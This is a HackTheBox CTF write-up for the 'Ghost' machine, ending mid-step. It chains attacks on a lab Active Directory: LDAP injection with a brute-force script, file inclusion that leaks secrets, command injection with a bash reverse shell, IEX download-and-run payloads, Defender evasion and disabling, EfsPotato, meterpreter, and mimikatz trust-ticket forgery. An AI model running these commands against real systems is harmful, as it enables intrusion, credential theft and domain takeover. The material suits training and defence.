

<h1><ins>HackTheBox: Ghost Writeup</ins></h1>

**Date:** 12/12/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Ghost\
**Difficulty:** Insane\
**Link to Machine:** [HackTheBox - Ghost (Insane)](https://app.hackthebox.com/machines/Ghost)

## Reconaissance
### NMAP Scan
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-20 20:51 UTC
Nmap scan report for 10.10.11.24
Host is up (0.046s latency).
Not shown: 65508 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-20 20:51:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
443/tcp   open  https?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RC0+
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-20T04:03:52
|_Not valid after:  2054-12-20T04:03:52
| ms-sql-ntlm-info: 
|   10.10.11.24:1433: 
|     Target_Name: GHOST
|     NetBIOS_Domain_Name: GHOST
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: ghost.htb
|     DNS_Computer_Name: DC01.ghost.htb
|     DNS_Tree_Name: ghost.htb
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.10.11.24:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|_    TCP port: 1433
|_ssl-date: 2024-12-20T20:53:27+00:00; +1s from scanner time.
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Not valid before: 2024-12-19T04:01:04
|_Not valid after:  2025-06-20T04:01:04
|_ssl-date: 2024-12-20T20:53:27+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: GHOST
|   NetBIOS_Domain_Name: GHOST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ghost.htb
|   DNS_Computer_Name: DC01.ghost.htb
|   DNS_Tree_Name: ghost.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-12-20T20:52:48+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8008/tcp  open  http          nginx 1.18.0 (Ubuntu)
| http-robots.txt: 5 disallowed entries 
|_/ghost/ /p/ /email/ /r/ /webmentions/receive/
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Ghost
|_http-generator: Ghost 5.78
8443/tcp  open  ssl/http      nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=core.ghost.htb
| Subject Alternative Name: DNS:core.ghost.htb
| Not valid before: 2024-06-18T15:14:02
|_Not valid after:  2124-05-25T15:14:02
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| http-title: Ghost Core
|_Requested resource was /login
9389/tcp  open  mc-nmf        .NET Message Framing
49443/tcp open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
59068/tcp open  msrpc         Microsoft Windows RPC
62464/tcp open  msrpc         Microsoft Windows RPC
62518/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-12-20T20:52:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```
From the NMAP scan, I saw that the target was a Domain Controller (DC) as it had all of the common Domain Controller ports open, and it had the hostname **DC01**. I also spotted that there were web servers running on the ports 8008 (HTTP) and 8443 (HTTPS). The root domain for the target is **ghost.htb**, the subdomain for the web server on port 8443 is **core.ghost.htb**, and the DC hostname is **DC01.ghost.htb**.

> Add **ghost.htb**, **core.ghost.htb**, and **DC01.ghost.htb** to the /etc/hosts file.

### FFUF Scan
```
ffuf -u http://ghost.htb:8008/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.ghost.htb" -fs 7676
```


After finding out the root domain of the target, I ran a **FFUF** scan to attempt to brute-force subdomains. The scan was able to find **intranet.ghost.htb** and **gitea.ghost.htb**.

> Add **intranet.ghost.htb** and **gitea.ghost.htb** to the /etc/hosts file.

## First Look at *.ghost.htb (port 8008)
### Ghost CMS Blog (ghost.htb:8008)


An initial look at the main **ghost.htb** site shows a blog running on **Ghost CMS v5.78** which, after some research, does not have any vulnerabilities that can be used for initial access without credentials *(as of the time of doing this writeup)*.

Browsing to **/ghost/** displays the default admin login page for **Ghost CMS**, but I do not have any credentials and basic username and password combinations like `admin:admin` do not work so I moved on from this site.

### Gitea (gitea.ghost.htb:8008)
An initial look at the **gitea** subdomain displays the standard **gitea** login page, but with no credentials (...yet) I was unable to find anything useful so I just left it for the time being.

### Ghost Intranet (intranet.ghost.htb:8008)


Viewing the **intranet** subdomain, I was immediately met with a basic login page prompting for a username and a secret.


Viewing the page source, I spotted that the input fields were named **"ldap-username"** and **"ldap-secret"**, this immediately made me think about **LDAP injection** which is where you can inject LDAP queries into an unsantisised user input and they are passed directly to the LDAP server.

Using a super basic payload of an asterisk (*) in the username field and the same in the password field was enough to bypass the login and log me in as the user **kathryn.holland**!


#### Gathering information
Immediately after logging into the **intranet** subdomain, it displays the *NEWS* section of the website with a notice about how domain logins have been disabled for the **gitea** subdomain and users can only login using the **gitea_temp_principal** account and the corresponding intranet secret token. There was also a note saying that the secret for the **gitea_temp_principal** account could not be posted on the site for security reasons but for **IT** users, to ask the **sysadmin** users for the secret, and for **sysadmin** users, they can search through LDAP for the secret.


Browsing to the *USERS* section of the website, I saw a list of the domain users comprising of usernames, full names, and the groups that they are a part of. I copied this list as i thought it may come in handy a bit later.

| Username             | Full Name            | Groups                      |
| -------------------- | -------------------- | --------------------------- |
| kathryn.holland      | Kathryn Holland      | sysadmin                    |
| cassandra.shelton    | Cassandra Shelton    | sysadmin                    |
| robert.steeves       | Robert Steeves       | sysadmin                    |
| florence.ramirez     | Florence Ramirez     | IT                          |
| justin.bradley       | Justin Bradley       | IT, Remote Management Users |
| arthur.boyd          | Arthur Boyd          | IT                          |
| beth.clark           | Beth Clark           | HR                          |
| charles.gray         | Charles Gray         | HR                          |
| jason.taylor         | Jason Taylor         | HR                          |
| intranet_principal   | Intranet Principal   | principal                   |
| gitea_temp_principal | Gitea_Temp Principal | principal                   |

Finally, browsing to the *FORUM* section of the website, there were 3 posts but one of them caught my attention. A post from the user **justin.bradley** saying that he has an automated script that checks the pipeline results from the **gitea** subdomain but he cannot get it to work with the **bitbucket** domain, to which **kathryn.holland** replies stating that the DNS record for **bitbucket** has not been configured yet.



#### Brute-forcing the gitea_temp_principal Secret with LDAP Injection
Seeing that the secret token for the **gitea_temp_principal** account was stored in LDAP, and knowing that the asterisk wildcard works for LDAP injection, I knew that I would be able to brute-force the secret.

The attack works like this:

1.  The asterisk (\*) wildcard means *any string of characters* which is why it can bypass the login\
    because it simply represents the full password for any given account.

2.  Supply a valid account name, in this case **gitea_temp_principal**

3.  Start going through each character and then put the asterisk wildcard after it:\
    ```
    a*
    b*
    c*
    ...
    ```
    This tells LDAP to check if the password starts with the given character. If the login is successful, then the character is the first character of the password. If the login fails, then it is not and you should move onto the next character.

4.  After finding the first correct character, repeat step 3 but add a second character:\
    ```
    <correct_character>a*
    <correct_character>b*
    <correct_character>c*
    ...
    ```

5.  Repeat this step until the full secret is extracted.

This atack can be automated using a super simple Python script, which is what I did:
```
import requests
import string

CHARACTERS = string.ascii_lowercase + string.digits

TARGET = "http://intranet.ghost.htb:8008/login"

HEADERS = {
	'Host': 'intranet.ghost.htb:8008',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate, br',
	'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
	'Connection': 'keep-alive'
}

DATA = {
	'1_ldap-username': 'gitea_temp_principal',
	'1_ldap-secret': '{}',
	'0': (None, '[{},"$K1"]')
}

extracted_password = ""

while True:
	for char in CHARACTERS:
		DATA['1_ldap-secret'] = f"{extracted_password}{char}*"
		resp = requests.post(TARGET, headers=HEADERS, data=DATA)
		if resp.status_code == 303:	# correct login, redirect
			extracted_password += char
			print(f"Current Extracted Password: {extracted_password}")
			break
		else:
			pass

	if char == "9":
		break

print(f"\n[*] Complete Password: {extracted_password}")
```

This script automates going through each character to extract the full secret.


**gitea_temp_principal Secret: szrr8kpc3z6onlqf**

## Initial Access
Now I have the **gitea_temp_principal** account secret, I went back to the **gitea** subdomain and logged in.

After logging in, I saw two repositories from the user **ghost-dev**, one called **intranet** and one called **blog**. Since I had already bypassed the intranet login and extracted the gitea password via LDAP injection on the **intranet** subdomain, I decided to have a look at the **blog** repository first.


The *README* discusses how they have implemented some dev features but they require the dev API key to use, which is stored in an environment variable, but they have also modified the **Ghost CMS** source code to be able to extract more information about the blog posts and they give me the public API key.

**Public API Key: a5af628828958c976a3b6cc81a**

### public-posts.js Code Analysis


This snippet of code shows that a filename passed in added parameter **extra** is read and the contents are returned. There is no input sanitisation on the **extra** parameter allowing for **Local File Inclusion**.

### LFI Exploitation
Crafting the URL to exploit the LFI is simple, just get the URL of the **posts** endpoint on the **Ghost CMS** api, append the **extra** parameter with the payload and append the **key** parameter with the API key given to us.

```
http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a
```

A quick **curl** command can be used to extract the contents of the `/etc/passwd` file:\
`curl "http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a"`

Output:
```
{"posts":{"id":"65bdd2dc26db7d00010704b5","uuid":"22db47b3-bbf6-426d-9fcf-887363df82cf","title":"Embarking on the Supernatural Journey: Welcome to Ghost!","slug":"embarking-on-the-supernatural-journey-welcome-to-ghost","html":"[--- REDACTED ---]",
"extra":{"../../../../etc/passwd":"root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nnode:x:1000:1000:Linux User,,,:/home/node:/bin/sh\n"}}}
```

The output is pretty difficult to read as it is, but putting it into a JSON beautifier will sort out the formatting and indentation for you. But without doing that, just seeing the content of the `/etc/passwd` file proves that the LFI works!

Knowing that the dev API key is stored in an environment variable, and having LFI means that I could read the environment variables for the process from `/proc/self/environ`:
```
{"posts":{"id":"65bdd2dc26db7d00010704b5","uuid":"22db47b3-bbf6-426d-9fcf-887363df82cf","title":"Embarking on the Supernatural Journey: Welcome to Ghost!","slug":"embarking-on-the-supernatural-journey-welcome-to-ghost","html":"[--- REDACTED ---]",
"extra":{"../../../../proc/self/environ":"HOSTNAME=26ae7990f3dd\u0000database__debug=false\u0000YARN_VERSION=1.22.19\u0000PWD=/var/lib/ghost\u0000NODE_ENV=production\u0000database__connection__filename=content/data/ghost.db\u0000HOME=/home/node\u0000database__client=sqlite3\u0000url=http://ghost.htb\u0000DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe\u0000database__useNullAsDefault=true\u0000GHOST_CONTENT=/var/lib/ghost/content\u0000SHLVL=0\u0000GHOST_CLI_VERSION=1.25.3\u0000GHOST_INSTALL=/var/lib/ghost\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000NODE_VERSION=18.19.0\u0000GHOST_VERSION=5.78.0\u0000"}}}
```

Formatted output:
```
HOSTNAME=26ae7990f3dd
database__debug=false
YARN_VERSION=1.22.19
PWD=/var/lib/ghost
NODE_ENV=production
database__connection__filename=content/data/ghost.db
HOME=/home/node
database__client=sqlite3
url=http://ghost.htb
DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe
database__useNullAsDefault=true
GHOST_CONTENT=/var/lib/ghost/content
SHLVL=0
GHOST_CLI_VERSION=1.25.3
GHOST_INSTALL=/var/lib/ghost
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NODE_VERSION=18.19.0
GHOST_VERSION=5.78.0
```

**DEV_INTRANET_KEY: !@yqr!X2kxmQ.@Xe**

### dev-api Code Analysis


Looking at the code for the implemented *scan* feature, I immediately spotted `bash` and `-c`, this means that it is passing a system command to `bash` and then getting the output and doing something else with it. The feature is unfinished, but the ability to run system commands is there, and with no input sanitisation and having the dev API key, this open up the ability for **Remote Code Execution**!

The code shows that the command is calling an internal function **intranet_url_check** and passing a given URL directly to it. I can abuse this by simply adding a semi-colon to the end of a URL and then add any command I want to run.

### Getting a Shell
I used a simple **curl** command to pass my payload and the dev API key to the target endpoint:
```
curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url": "2>/dev/null; bash -i >& /dev/tcp/<ATTACKER_IP>/<LISTENER_PORT> 0>&1"}'
```

I started up a **netcat** listener and ran the **curl** command...


Immediately after getting a shell, I stabilised it using: `python3 -c import pty;pty.spawn("/bin/bash")'` and started looking around.

## Lateral Movement
### Docker root -> florence.ramirez
I knew I was in a **docker** container because I had a shell as root and in the `/` directory there was a file named **docker-entrypoint.sh**. Reading the file, I saw that it was configuring an SSH *controlmaster* setup which is used for re-using SSH connections that are already setup.
```
#!/bin/bash

mkdir /root/.ssh
mkdir /root/.ssh/controlmaster
printf 'Host *\n  ControlMaster auto\n  ControlPath ~/.ssh/controlmaster/%%r@%%h:%%p\n  ControlPersist yes' > /root/.ssh/config

exec /app/ghost_intranet
```

I changed directory into `/root/.ssh/controlmaster` and saw an SSH socket there for the user **florence.ramirez** connecting to **dev-workstation**. I can use this SSH socket by just grabbing the filename and passing it to the **ssh** command:\
`ssh florence.ramirez@ghost.htb@dev-workstation`


The **dev-workstation** machine was also a linux machine, and knowing that it was domain connected, I ran the command `klist` to see if there were any **kerberos tickets** on the machine for any of the users.


I saw that there was a **kerberos ticket** for the user **florence.ramirez** so I converted the file contents to Base64, copied the output, and decoded it back into the ticket on my machine as I was unable to easily spin up a simple Python HTTP server to just download the ticket.

After downloading the ticket and setting the path to it as the local environment variable `KRB5CCNAME`, I used `bloodhound-python` to collect data about the domain and its users for **BloodHound**.

After collecting the data and looking through it, I was unable to find anything too interesting. I then spent a while looking around the machine a bit more to see if I could find anything exploitable or any credentials hidden anywhere, but nothing... UNTIL!

### florence.ramirez -> justin.bradley
I remembered that the user **justin.bradley** mentioned that he had an automated script but it wasn't working with the **bitbucket** subdomain because the DNS record hadn't been setup yet. I check what groups **florence.ramirez** was a part of and saw that she was part of the **IT** group so I assumed that she would be able to add DNS records.

I thought that if I could inject a malicious DNS record to point to my machine where I would have `responder` listening, then maybe I could capture the NTLM hash of **justin.bradley**.

I used `dnstool.py` and **florence.ramirez** kerberos ticket to inject a malicious DNS record:\
`python3 dnstool.py -u 'ghost.htb\florence.ramirez' -k -r 'bitbucket.ghost.htb' -d '<ATTACKER_IP>' -a add dc01.ghost.htb -dns-ip <TARGET_IP>`

I setup `responder` to listen for any incoming connections:\
`sudo responder -I tun0 -wd`

Then I waited, and after a while I was able to capture the hash for **justin.bradley**!


I then copied the captured hash into a file and used **JohnTheRipper** to crack the hash.


### justin.bradley -> ADFS_GMSA$
I took another look at **BloodHound** and marked **justin.bradley** as owned. I checked out what groups he is a part of and saw that he is a part of the **Remote Management Users** group which allows me to use **evil-winrm** to connect to the target machine and run **PowerShell** commands. Checking to see if he had any outbound object control permissions, I saw that the **ReadGMSAPassword** permission was set on the **ADFS_GMSA$** account. It is possible to get the password of the account by dropping a tool onto the compromised machine, but it is much easier to just use **bloodyAD** from the attacker machine.

I used impacket's **getTGT** to generate a ticket for **justin.bradley** using his password:\
`impacket-getTGT ghost.htb/'justin.bradley':'Qwertyuiop1234$$'`

Then i used **bloodyAD** to get the password hash of **ADFS_GMSA$**:
```
$ bloodyAD --host dc01.ghost.htb -d "GHOST.HTB" --dc-ip <TARGET_IP> -k get object 'ADFS_GMSA$' --attr msDS-ManagedPassword

Output:
distinguishedName: CN=adfs_gmsa,CN=Managed Service Accounts,DC=ghost,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:3d76bf27456f0e647a849e8afb99207a	<- NTLM HASH
msDS-ManagedPassword.B64ENCODED: R4LZiwLWPXAzE63xMa8e4ephVMmIhX/S0bEO9Cp0GV1Gok/TprBZj2VJLTJw7WC2ujfQRmU3MZOygA3OU1aoOd4hKWwXTEPYoIao/u0nj8sx7cA9zauKO/ymwBH0TSsEHnFeuWMYexR1F0GXNVdQFxqWzqzb+F+mru+h5TZyUenFSawD3SXE/6dIiYQYZI3114Bf/mRvOTt4Xn6mGfxtExs3RUU14/kqLlbbNK296lR+MFTnt2w3Cf04ZmU2OFxMargoGBcSdqo4ZsUJop8DrrDBY9P+TaKC+zbRVkF+fJXUgUJIUv5MaoIY1vsPApY8z7T4VhlJKBIUI+ERW4HZZA==
```

The account **ADFS_GMSA$** is also a part of the **Remote Management Users** group allowing me to use **evil-winrm** to be able to run **PowerShell** commands on the target as that account using the NTLM hash to authenticate.

At this point I was a bit confused with where to go next, I did some research into what **ADFS** was and discovered that it is **Active Directory Federation Services** which is used to setup single sign-on access to systems and applications. Now I had this information, I just had to find out what I could do with it and what I could exploit?

I took a look at the **core.ghost.htb** website hosted on port 8443. It was a blank page with only a title saying **"Ghost Core"** and a button prompting the user to login with *"AD Federation"*.


Clicking the button redirected me to **federation.ghost.htb** which I had not discovered yet.

> Add **federation.ghost.htb** to the /etc/hosts file.

After adding it to my `/etc/hosts` file, I clicked on the button and was met with a login page for *"Ghost Federation"*.


I only have credentials for one user, **justin.bradley**, so I entered those credentials and I was successfully logged in, however...


The only user allowed to actually use the page hidden behind the login portal is the Administrator user.

Well, atleast now I knew what I needed to attempt to gain access to by exploiting some **ADFS** feature. So, after some more research, I discovered that I can use a tool called **ADFSDump.exe** to dump ADFS data, which I can then use to forge a **"GoldenSAML"** to impersonate the Administrator user and successfully login to the **federation** subdomain.

> I found a precompiled binary of **ADFSDump** in [this collection](https://github.com/Flangvik/SharpCollection) of pre-compiled binaries.

After using **evil-winrm** to open an interactive shell as **ADFS_GMSA$**:\
`evil-winrm -i ghost.htb -u 'ADFS_GMSA$' -H '3d76bf27456f0e647a849e8afb99207a'`

I uploaded the **ADFSDump.exe** tool and ran it.


After fetching all of the data, I had to convert the **Encrypted Token Signing Key** and the **Private Key** into **.bin** files for use with a tool named **ADFSpoof**.

```
echo "<ENCRYPTED_TOKEN_SIGNING_KEY>" | base64 -d > EncryptedPfx.bin
echo "<PRIVATE_KEY>" | tr -d "-" | xxd -r -p > private_key.bin
```

Finally, I could use **ADFSpoof** to forge a **"GoldenSAML"** to impersonate the Administrator user.

```
python3 ADFSpoof.py -b EncryptedPfx.bin private_key.bin -s core.ghost.htb saml2 --endpoint https://core.ghost.htb:8443/adfs/saml/postResponse --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 'GHOST\administrator' --rpidentifier https://core.ghost.htb:8443 --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue>GHOST\administrator</AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue>Administrator</AttributeValue></Attribute>'
```


After generating the forged **"GoldenSAML"** I went back to the **federation** login page, logged in as **justin.bradley** and intercepted the requests using **BurpSuite** forwarding each request until I spotted the request containing the SAML for **justin.bradley**, I then replaced the SAML with the forged one and forwarded the request.


Checking back on the **federation** website after forwarding the request to see if the attack worked, I was met with a form to run SQL queries on an MSSQL database.


## Privilege Escalation
Thankfully, Microsoft MSSQL servers have a nifty feature called **"xp_cmdshell"** which is a procedure that can be called in an SQL query to run given system commands. If the target has good security practices, this feature should be disabled and can only be re-enabled using an administrative SQL service account. 

In this case, **xp_cmdshell** was disabled, but I was able to craft a specific one-line query to impersonate the **sa** user and re-enable it to be able to run system commands.

The first step was to intercept the request when submitting a query and send it to the **BurpSuite Repeater** tab so I can analyse the response I get from the server in greater detail, including any error codes and the HTTP status code.

Running the simple query `SELECT user_name();` returned that I was running queries as the user **"web_client"**.


The query I crafted to get Remote Code Execution looked like this:\
`EXEC('EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell ''whoami''; REVERT;') AT [PRIMARY];`

Running this query, I saw that the **xp_cmdshell** was successfully re-enabled and I was running commands as **nt service\mssqlserver**. I attempted to get a reverse shell, but **Defender's Real-Time Protection** was flagging my shells every time. I had to find a way to bypass it to get a shell.

I ended up using a tool named [**"PowerJoker"**](https://github.com/Adkali/PowerJoker) which is a tool written in Python specifically made for generating **PowerShell** reverse shells that are obfuscated to bypass **Real-Time Protection**. It also has a built in session handler which catches the callback for you and allows you to interact with the target through that without the need for you to spin up your own listener.

Another tool that can be used to obfuscate **PowerShell** reverse shells is [Chimera](https://github.com/tokyoneon/Chimera), it works just as well as **PowerJoker**.

### Getting a Reverse Shell
I generated a reverse shell using **PowerJoker**:\
`python3 PowerJoker.py -l <ATTACKER_IP> -p <LISTENER_IP>`


I then changed my SQL query to read the contents of the **PowerShell** reverse shell, from a simple Python HTTP server, into memory and then execute it.

```
EXEC('EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell "powershell -c IEX (IWR ''http://<ATTACKER_IP>/Payload.ps1'' -UseBasicP)"; REVERT;') AT [PRIMARY];
```

After submitting the query, I checked the **PowerJoker** listener and I had a callback!


Running the **PowerShell** command `Get-ADComputer -Filter *` to list the Domain connected machines, I saw that I had a shell on **core.ghost.htb** not **DC01.ghost.htb** so I had to find some way of pivoting to be able to access the **DC**.

## Exploiting Trusts
Looking back at **BloodHound**, I saw that **CORP.GHOST.HTB** is *"trusted"* by **GHOST.HTB**. After some research, I found that trusts can be exploited using an attack called **"SID-History Injection"** but to perform this attack I needed to use **mimikatz** to extract specific information. With **Real-Time Protection** running, I am unable to use **mimikatz** as it constantly gets flagged. The only way to disable **Real-Time Protection** is if I manage to privilege escalate to **NT AUTHORITY\SYSTEM**.

Running the command `whoami /priv` to see what privileges I had, if any, I was blessed with the sight of **SeImpersonatePrivilege**! There are multiple exploits that can be used for escalating privileges by abusing the **SeImpersonatePrivilege**, such as **JuicyPotato**. However, trying to use these exploits contantly got them flagged as malicious and killed the process or immediately deleted the file as soon as I uploaded it.

However, I found an exploit called [**"EfsPotato"**](https://github.com/zcgonvh/EfsPotato) which can be compiled on the target system. Binaries that are compiled on the target are often not flagged by AV software as it looks at it as "Hey, it was compiled here so surely it's supposed to be here, I'll just leave it to do its thing!".

So, I downlaoded the **EfsPotato.cs** file to my machine, hosted a simple Python HTTP server, and used **curl** to download it onto the target in the directory `C:\Users\Public\Downloads`.

After downloading the **.cs** file, I compiled it on the target using the command given in the **GitHub** repository:\
`C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe C:\Users\Public\Downloads\EfsPotato.cs -nowarn:1691,618`


Now I was able to use the exploit to run commands as the elevated user **NT AUTHORITY\SYSTEM** so I used the previously generated **PowerJoker** encoded command to spawn another reverse shell session, but this time using the **EfsPotato** exploit.

```
./EfsPotato.exe 'powershell -c <COMMAND>'
```


At this point, I wanted to use a **meterpreter** shell because the **PowerJoker** shell was a bit slow and didn't offer the options that a **meterpreter** shell does. But to allow that to happen, I first had to disable **Real-Time Protection**.

```
Disable Real-Time Protection:
Set-MpPreference -DisableRealtimeMonitoring $true

Check it is disabled:
Get-MpPreference | Select-Object DisableRealtimeMonitoring
```


Once I had disabled defender, I generated a **meterpreter** reverse shell, transferred it to the target machine, and then ran it after starting a listener in **msfconsole**.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<LISTENER_PORT> -f exe -o shell.exe`


I now had to upload **mimikatz** to the target machine. After uploading **mimikatz**, I dropped into a shell *(Terrible OPSEC, I know)* to interact with it a bit easier.

To exploit the trust, I needed 3 pieces of information:
1.	Trust key from CORP.GHOST.HTB -> GHOST.HTB
2.	SID of ENTERPRISE ADMINS
3.	SID of CORP.GHOST.HTB

The SIDs can be easily found in **BloodHound**:
- SID of ENTERPRISE ADMINS (on GHOST.HTB)	=	**S-1-5-21-4084500788-938703357-3654145966-519**
- SID of CORP.GHOST.HTB						=	**S-1-5-21-2034262909-2733679486-179904498-502**

The added **"-502"** on the end of the **CORP.HOST.HTB** SID is there to signify the **Domain Admins** group.

To get the trust key from **CORP.GHOST.HTB** to **GHOST.HTB**, I had to use **mimikatz**.

```
powershell.exe -c ".\mimikatz.exe 'lsadump::trust /patch' exit"
```


The *"trust key"* needed is the **"rc4_hmac_nt"** value:\
`rc4_hmac_nt       e6c4f4e99d8426b64e28982e6d5f7861`

Now I had all 3 pieces of information I needed, I can use **mimikatz** again to generate a forged **"trust ticket"**:

```
powershell -c ".\mimikatz.exe 'Kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:e6c4f4e99d8426b64e28982e6d5f7861 /service:krbtgt /target:GHOST.HTB /ticket:forged.kirbi' exit"
